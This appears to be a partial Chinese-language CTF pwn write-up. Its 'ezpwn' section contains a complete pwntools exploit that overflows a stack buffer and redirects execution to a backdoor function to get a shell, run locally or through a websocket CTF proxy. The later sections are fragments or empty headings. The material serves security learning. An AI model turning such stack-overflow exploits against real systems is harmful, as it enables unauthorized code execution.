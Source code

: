 CrazyCat PWN

# Day1
## ezpwn
![[Pasted image 20250210232353.png]]
输入的值与DAT_00405068一样后便可以栈溢出。
![[Pasted image 20250210232500.png]]
答案是年度最佳astrobot。
![[Pasted image 20250210232539.png]]
可以找到backdoors，构造payload即可。
exp:
```python
from pwn import *

from wstube import websocket

  

context(arch='amd64', os='linux', log_level='debug')

local = True

if local:

p = process('./ezpwn')

else:

p = websocket('ws://ctf.miaoaixuan.cn/api/proxy/0194eda1-f812-771e-9167-d804f8f8a76f')

  

ret = 0x40101a

backdoors = 0x401539

key = b'astrobot'

p.recvuntil(b'\x21\x0a')

p.send(key)

p.recvuntil(b'something:')

payload = b'A' * 0x58 + p64(ret) + p64(backdoors)

p.sendline(payload)

p.interactive()
```
shell:
![[Pasted image 20250210232813.png]]
## fmt_str
有backdoor
![[Pasted image 20250210232848.png]]
有两个有用的函数，第一个当地址为0x404068的值为0x56785678时便可以进入di er
## shellcode

## walt改造的编译器
